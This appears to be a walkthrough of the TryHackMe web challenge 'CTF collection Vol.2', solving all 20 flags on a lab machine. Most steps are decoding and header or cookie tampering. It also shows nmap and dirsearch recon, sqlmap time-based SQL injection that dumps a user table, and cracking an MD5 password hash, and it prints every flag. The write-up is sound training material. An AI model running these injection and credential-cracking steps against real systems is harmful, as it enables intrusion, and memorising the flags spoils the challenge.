



# CTF collection Vol.2

## Description

Sharpening up your CTF skill with the collection. The second volume is about web-based CTF.

Welcome, welcome and welcome to another CTF collection. This is the second installment of the CTF collection series. For your information, the second serious focuses on the web-based challenge. There are a total of 20 easter eggs a.k.a flags can be found within the box. Let see how good is your CTF skill.

Now, deploy the machine and collect the eggs!

Warning: The challenge contains seizure images and background. If you feeling uncomfortable, try removing the background on <style\> tag.

Note: All the challenges flag are formatted as `THM{flag}`, unless stated otherwise

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1b:c2:b6:2d:fb:32:cc:11:68:61:ab:31:5b:45:5c:f4 (DSA)
|   2048 8d:88:65:9d:31:ff:b4:62:f9:28:f2:7d:42:07:89:58 (RSA)
|_  256 40:2e:b0:ed:2a:5a:9d:83:6a:6e:59:31:db:09:4c:cb (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 360 No Scope!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Directory Recon

I ran `dirsearch` on the webpage before I start looking for the eggs:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CTF_collection_Vol.2]
└─$ dirsearch -u http://$IP/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220520

Output File: /home/user/.dirsearch/reports/10.10.152.195/_21-10-26_04-40-05.txt

Error Log: /home/user/.dirsearch/logs/errors-21-10-26_04-40-05.log

Target: http://10.10.152.195/

[04:40:06] Starting: 
[04:40:07] 301 -  314B  - /login  ->  http://10.10.152.195/login/
[04:40:08] 200 -   92KB - /index
[04:40:10] 200 -   38KB - /button
[04:40:12] 200 -  248KB - /static
[04:40:12] 200 -   61KB - /cat
[04:40:13] 200 -  689B  - /small
[04:40:18] 200 -  430B  - /robots
[04:40:46] 200 -   19KB - /iphone
[04:41:05] 200 -    4MB - /who
[04:41:36] 301 -  314B  - /game1  ->  http://10.10.152.195/game1/
[04:41:40] 200 -   25KB - /egg
[04:42:07] 200 -    1MB - /dinner
[04:42:38] 200 -  194KB - /ty
[04:43:30] 301 -  314B  - /ready  ->  http://10.10.152.195/ready/
[04:44:14] 200 -  153KB - /saw
[04:44:23] 301 -  314B  - /game2  ->  http://10.10.152.195/game2/
[04:45:16] 200 -  152KB - /wel
[04:48:04] 301 -  317B  - /free_sub  ->  http://10.10.152.195/free_sub/
[04:48:32] 200 -  359KB - /nicole
[04:49:53] 403 -  294B  - /server-status

Task Completed
~~~

## Easter 1

Hint: Check the robots

Let's take a look at `/robots.txt`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CTF_collection_Vol.2]
└─$ curl -s "http://$IP/robots.txt" | html2text
User-agent: * (I don't think this is entirely true, DesKel just wanna to play
himself) Disallow: /
VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=
45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c
5f 30 75 37 7d
~~~

You can obtain the first easter, by decoding the hex string:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CTF_collection_Vol.2]
└─$ echo "45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d" | xxd -r -p
Easter 1: THM{4u70b07_r0ll_0u7}
~~~

Easter 1: `THM{4u70b07_r0ll_0u7}`

## Easter 2

Hint: Decode the base64 multiple times. Don't forget there are something being encoded.

In order to decoode the base64 string, you should decode it twice and then remove the spaces between the letters, and then decode it again and then remove the spaces and finlly decode it for the last time (I used `urldecode` because the the strings get urlencoded):

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CTF_collection_Vol.2]
└─$ urlencode -d $(echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d) | base64 -d | sed "s/\ //g" | base64 -d | sed "s/\ //g" | base64 -d
DesKel_secret_base
~~~

What we get is a directory. After navigating to it, you can see the 2nd easter:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CTF_collection_Vol.2]
└─$ curl -s "http://$IP/DesKel_secret_base/" | html2text 
****** A slow clap for you ******
[kim.png]
Not bad, not bad.... papa give you a clap
Easter 2: THM{f4ll3n_b453}
~~~

Easter 2: `THM{f4ll3n_b453}`

## Easter 3

Hint: Directory buster with common.txt might help.

If you navigate to `/login`, you can see the 3rd easter in the source code:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl -s "http://$IP/login/" | html2text | head -n5

Seriously! You think the php script inside the source code? Pfff.. take this
easter 3: THM{y0u_c4n'7_533_m3}
****** Just an ordinary login form! ******
You don't need to register yourself
~~~

Easter 3: `THM{y0u_c4n'7_533_m3}`

## Easter 4

Hint: time-based sqli

We need to use `sqlmap` for this one, but we need to save the request first. To do so, we should intercept a POST request using `burpsuite` in `/login` then right click and choose "Save item" and save the request.

Now let's start working with `sqlmap`. First we need to find the database:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml --current-db --batch --risk=3 --level=5 

[REDACTED]

[07:26:26] [INFO] retrieved: THM_f0und_m3
current database: 'THM_f0und_m3'
~~~

We found a database named `THM_f0und_m3`, so let's dump the tables:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 --tables

[REDACTED]

Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+
~~~

Now let's see the structure of `nothing_inside` table:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 -T nothing_inside --columns

[REDACTED]

Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+
~~~

It only has one field. Let's dump it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"

[REDACTED]

[08:04:11] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
select Easter_4 from nothing_inside: 'THM{1nj3c7_l1k3_4_b055}'
~~~

Easter 4: `THM{1nj3c7_l1k3_4_b055}`

## Easter 5

Hint: Another sqli

Let's dump the other table:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 -T user --columns

[REDACTED]

Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+
~~~

Let's dump the content:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"

[REDACTED]

select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me
~~~

We got an MD5 hash. I used [crackstation](https://crackstation.net/) and cracked it. It decrypted to `cutie`.

So we can use the username and password (`DesKel:cutie`) to login from `/login` and you get the 5th easter.

Easter 5: `THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql} `

## Easter 6

Hint: Look out for the response header.

I saved the header using `curl` and we can see the easter:

~~~
$ curl -s "http://$IP/" -D header.txt
$ cat header.txt                     
HTTP/1.1 200 OK
Date: Tue, 26 Oct 2021 12:31:12 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
~~~

Easter 6: `THM{l37'5_p4r7y_h4rd}`

## Easter 7

Hint: Cookie is delicious

If you take a look at the header again, you can see a cookie named `Invited` which is set to 0:

~~~
HTTP/1.1 200 OK
Date: Tue, 26 Oct 2021 12:31:12 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
~~~

You can also see a title in the main page saying: "Who are you? Did I invite you?".

Let's set it to 1, and see what happens. I used `curl` to make things quicker:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl --cookie "Invited=1" http://$IP/ -s | grep "easter 7"
			<h2> You are now officially invited. Enjoy the easter 7: THM{w3lc0m3!_4nd_w3lc0m3} </h2>
~~~

Ester 7: `THM{w3lc0m3!_4nd_w3lc0m3}`

## Easter 8

Hint : Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1

The hint is a user-agent. Let's send this as the user-agent:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl --user-agent "Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1" http://$IP/ -s | grep "Easter 8"
			<h4>You are Rich! Subscribe to THM server ^^ now. Oh btw, Easter 8: THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y}
~~~

Easter 8: `{h3y_r1ch3r_wh3r3_15_my_k1dn3y}`

## Easter 9

Hint: Something is redirected too fast. You need to capture it.

This one can be found in `/ready`'s source code:

~~~html
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl -s "http://$IP/ready/"            
<html>
	<head>
		<title>You just press it</title>
		<meta http-equiv="refresh" content="3;url=http:gone.php" />
		

		<!-- Too fast, too good, you can't catch me. I'm sanic Easter 9: THM{60nn4_60_f457} -->
	</head>

</html>
~~~

Easter 9: `THM{60nn4_60_f457}`

## Easter 10

Hint: Look at THM URL without https:// and use it as a referrer.

If you take a look at `/free_sub` you can see that we should be refered from `tryhackme.com`. Let's change the referer using `curl`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl -s --referer "tryhackme.com" http://$IP/free_sub/
Nah, there are no voucher here, I'm too poor to buy a new one XD. But i got an egg for you. Easter 10: THM{50rry_dud3}
~~~

Easter 10: `THM{50rry_dud3}`

## Easter 11

Hint: Temper the html

If you go to the main page, there is a dropdown in the middle of the page. If you choose salad, you'll get this message:

"Mmmmmm... what a healthy choice, I prefer an egg"

I checked the parameters and found this:

It is asking for egg, so let's send egg:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl -s -d "dinner=egg" -X POST http://$IP/ | grep menu -B 1
	
	<h2>Let see the menu, huh..............</h2>
--

	You found the secret menu, take the easter 11: THM{366y_b4k3y}	<h1 style="color:red"">Press this button if you wishes to watch the world burn!!!!!!!!!!!!!!!!<h1>
~~~

Easter 11: `THM{366y_b4k3y}`

## Easter 12

Hint: Fake js file

I searched the main page's source code for js files and there is only one: `jquery-9.1.2.js`. Let's see the content:

~~~js                       
function ahem()
 {
	str1 = '4561737465722031322069732054484d7b68316464336e5f6a355f66316c337d'
	var hex  = str1.toString();
	var str = '';
	for (var n = 0; n < hex.length; n += 2) {
		str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
	}
	return str;
 }
~~~

If you run this, it will give you the 12th easter. You can use online websites for this, but I saved it and added **"console.log(ahem())"** to the end of it to get an output:

~~~js
function ahem()
 {
	str1 = '4561737465722031322069732054484d7b68316464336e5f6a355f66316c337d'
	var hex  = str1.toString();
	var str = '';
	for (var n = 0; n < hex.length; n += 2) {
		str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
	}
	return str;
 }
console.log(ahem())
~~~

And ran it with `nodejs`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ nodejs easter12.js 
Easter 12 is THM{h1dd3n_j5_f1l3}
~~~

Easter 12: `THM{h1dd3n_j5_f1l3}`

## Easter 13

We don't have a hint for this one, but I found it when I was looking for the 9th easter. If you take another look at the `ready`'s source code you can see a php file called `gone.php`. If you navigate to it, you'll get the 13th easter:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl -s "http://$IP/ready/gone.php" | html2text 
****** Congratulation!You just ended the world ******
[bomb.gif]

Happy? Take the egg now. Easter 13: THM{1_c4n'7_b3l13v3_17}
~~~

Easter 13: `THM{1_c4n'7_b3l13v3_17}`

## Easter 14

Hint: Embed image code

There is a commented base64 encoded image in the source code of the main page. You can try to decoded it yourself but that would take too much time. Let's use `burpsuite`. First intercept the request, and then right click > Do itercept > Response to this request and forward the message.

Now you can change the respone. Go to line 61 and remove the comment tag from the beginning and the end. Forward the respone and the image will appear and you can read the 14th:

Easter 14: `THM{d1r3c7_3mb3d}`

## Easter 15

Hint: Try guest the alphabet and the hash code

We should head to `/game1`. There is an input field and some numeric values as hints.

I entered some random inputs and got some numeric values. I realized that every character, has a numeric value. To get all the numeric values, I entered the alphabet (both lowercase and uppercase) to get all values and then replace the hints with their associated characters:

Uppercase:

Lowercase:

If you replace the numeric values of the hint with their characters, you'll get `GameOver`. Enter it as input and you'll get the 15th easter:

Easter 15: `THM{ju57_4_64m3}`

## Easter 16

Hint: Make all inputs into one form.

Let's head to `/game2`. There are three buttons. If you click any of them you'll get this message:

"Try Harder, I need all 3 buttons get pressed at once"

We can easily do this by modifying the POST request. I checked the request and know the format, so I used `curl` to click all three of them at the same time:

~~~html
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$  curl -d "button1=button1&button2=button2&button3=button3" -X POST http://$IP/game2/        
<html>
        <head>
                <title>Game 2</title>
                <h1>Press the button simultaneously</h1>
        </head>
	<body>
	
	<form method="POST">
		<input type="hidden" name="button1" value="button1">
		<button name="submit" value="submit">Button 1</button>
	</form>

	<form method="POST">
                <input type="hidden" name="button2" value="button2">
                <button name="submit" value="submit">Button 2</button>
        </form>

	<form method="POST">
                <input type="hidden" name="button3" value="button3">
                <button name="submit" value="submit">Button 3</button>
        </form>
	Just temper the code and you are good to go. Easter 16: THM{73mp3r_7h3_h7ml}	</body>
</html>
~~~

Easter 16: `THM{73mp3r_7h3_h7ml}`

## Easter 17

Hint: bin -> dec -> hex -> ascii

If you look for a comment saying "**Easter 17**", you can see a binary string a bit lower:

~~~html
<!--! Easter 17-->
	<button onclick="nyan()">Mulfunction button</button> 
	

	
	
~~~

We should decode the binary using the pattern in the hint. Let's use python cuz why not:

~~~py
>>> bin = '100010101100001011100110111010001100101011100100010000000110001001101110011101000100000010101000100100001001101011110110110101000110101010111110110101000110101010111110110101100110011011100000101111101100100001100110110001100110000011001000011001101111101'
>>> dec = int(bin, 2)
>>> hex = hex(dec)[2:]
>>> bytes.fromhex(hex).decode('ASCII')
'Easter 17: THM{j5_j5_k3p_d3c0d3}'
~~~

Easter 17: `THM{j5_j5_k3p_d3c0d3}`

## Easter 18

Hint: Request header. Format is egg:Yes

Let's send what the hint says as the header using curl, and look for "Easter 18" in the result:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl -s -H "egg: Yes" http://$IP/ | grep -i "Easter 18"
	That's it, you just need to say YESSSSSSSSSS. Easter 18: THM{70ny_r0ll_7h3_366}	
~~~

Easter 18: `THM{70ny_r0ll_7h3_366}`

## Easter 19

Hint: A thick dark line

There is only one thick dark line in the webpage. I used Inspect mode and realized that it is actually a very stretched image named `small.png`. If you navigate to http://$IP/small.png, you'll see the full image and you can read the 19th easter:

Easter 19: `THM{700_5m4ll_3yy}`

## Easter 20

Hint: You need to POST the data instead of GET. Burp suite or curl might help.

If you search for "easter 20" in the webpage, you'll see this:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl -s "http://$IP/" | grep "easter 20"
	<h3> Hey! I got the easter 20 for you. I leave the credential for you to POST (username:DesKel, password:heIsDumb). Please, I beg you. Don't let him know.</h3>
~~~

Let's post this info as the hint said:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl -s -d "username=DesKel&password=heIsDumb" -X POST http://$IP/ | grep "easter 20" -A1
	<h3> Hey! I got the easter 20 for you. I leave the credential for you to POST (username:DesKel, password:heIsDumb). Please, I beg you. Don't let him know.</h3>
	Okay, you pass, Easter 20: THM{17_w45_m3_4ll_4l0n6}	   
~~~

Easter 20: `THM{17_w45_m3_4ll_4l0n6}`

# D0N3! ; )

Thanks a lot to the creator(s) for putting this much effort!

Hope you had fun like I did! : )

And have a good one! : )